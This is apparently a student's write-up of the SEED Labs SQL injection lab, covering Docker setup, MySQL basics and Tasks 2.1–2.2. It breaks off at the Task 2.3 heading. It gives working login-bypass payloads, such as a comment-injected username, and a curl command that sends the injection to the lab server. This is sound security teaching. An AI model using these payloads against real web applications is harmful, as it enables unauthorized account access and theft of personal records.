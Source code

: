 # SQL Injection Attack Lab

SQL injection is a code injection technique that exploits the vulnerabilities in the interface between web applications and database servers.

Web applications often take user *inputs* to construct SQL queries for retrieving or storing data in a database. If these queries are not properly constructed, SQL injection vulnerabilities can arise.

![SQL Injection Attack](https://github.com/moooninjune/SEED-labs/blob/0b33ad65947b0754b4916b8eff9f10c15190fc80/images/lab8-SQL-injection-attack.png)

## Lab Environment Setup:

1. Map the web application's hostname `www.seed-server.com` to the container’s IP address `10.9.0.5`, by adding this entry to the `/etc/hosts` file.

    ```bash
    sudo gedit /etc/hosts

    #add the following entry
    10.9.0.5    www.seed-server.com
    ```

2. To set up this web application, there are two containers, one for hosting the *web application*, and the other for hosting *the database* for the web application.
    - Use the docker-compose.yml file to set up the lab environment.
    ```bash
    $ dcbuild # Alias for: docker-compose build
    $ dcup  # Alias for: docker-compose up
    ```

    - All the containers will be running in the background.
    ```bash
    # to find out the ID of the container
    # Alias for: docker ps --format "{{.ID}} {{.Names}}"
    $ dockps

    # to start a shell on that container
    # Alias for: docker exec -it <id> /bin/bash
    $ docksh <id>
    ```
    - Example:
    ```bash
    #in one terminal:

    $ dockps
    6f9ac28727e7  mysql-10.9.0.6
    501c8b535e7a  www-10.9.0.5

    $ docksh 6f # SQL database container

    #in another terminal:

    $ docksh 50 # web application container
    ```

---
## Task 1: Get Familiar with SQL Statements:

The data used by our web application is stored in a MySQL database, which is **hosted on our MySQL container**. We have created a database called `sqllab_users`, which contains a table called `credential`. The table stores the personal information (e.g. eid, password, salary, ssn, etc.) of every employee.

Inside the MySQL container:
```
# mysql -u root -pdees

mysql> use sqllab_users;
Database changed

mysql> show tables;
+------------------------+
| Tables_in_sqllab_users |
+------------------------+
| credential             |
+------------------------+
```

Use a SQL command to print all the profile information of the employee *Alice*:
```sql
select * from credential where Name='Alice';
```
---
## Task 2: SQL Injection Attack on *SELECT* Statement:

### Task 2.1: SQL Injection Attack from webpage.
- Username: `Alice' #`
- Password: Whatever you want, leave it empty even...

    It's like using a SQL query like this:
    ```sql
    select *
    from credential
    where name= 'Alice' #' and password='whatever';
    ```
    ```sql
    --it should be something like this normally:
    where name= 'Alice' and password='alice-passwd';
    ```

    `#` is used to begin a comment in MySQL. Everything following the `#` is ignored by the query. So, we deleted the `and` condition, and the query now only checks for a match on the `name` field, allowing attackers to log in as Alice regardless of the password.

---
### Task 2.2: SQL Injection Attack from command line.
The same as Task 2.1, but without using the webpage.
- Using the command `curl`: which can send HTTP GET requests.
- If you want to include multiple parameters (*username*, *password*) in HTTP requests, you need to put the URL and the parameters between a pair of single quotes.

    ```bash
    # sending an HTTP GET request
    $ curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Alice%27%20%23Password=whatever'

    # so it's like
    username= Alice' #
    password= whatever
    ```
    Special characters are encoded:
    - `%27` = single quote
    - `%20` = space
    - `%23` = hashtag #

- Then, export the html output into a `file.html` and open it. It contains all information we need but lacks the layout controls by a specified `CSS` file.
---
### Task 2.3: Append a new SQL statement.
